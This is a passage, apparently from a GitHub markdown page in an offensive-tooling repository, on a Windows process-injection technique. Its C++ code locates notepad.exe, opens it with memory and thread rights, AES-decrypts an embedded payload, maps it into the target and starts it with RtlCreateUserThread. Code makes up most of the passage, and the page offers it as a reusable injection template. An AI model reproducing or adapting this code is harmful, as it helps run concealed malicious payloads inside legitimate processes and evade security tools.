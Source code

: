 ```c++
	RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
	if (pRtlCreateUserThread == NULL)
		return -2;
	pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
  
	if (hThread != NULL) {
			WaitForSingleObject(hThread, 500);
			CloseHandle(hThread);
			return 0;
	}
	return -1;
}
```

#### Implementation
In this example, unlike the [classic process injection](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md) and [Thread Execution Hijacking](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Thread%20Execution%20Hijacking.md) techniques, the [payload decryption](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#aes-decryption) does not take place within the injection function, and instead occurs within the `main()` function, directly before the custom process hollowing function (`InjectView()`) is called:

```c++
int main(void) {
    
	int pid = 0;
    HANDLE hProc = NULL;

	pid = FindTarget("notepad.exe");

	if (pid) {
		printf("Notepad.exe PID = %d\n", pid);

		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			// Decrypt and inject payload
			AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
			InjectVIEW(hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
```
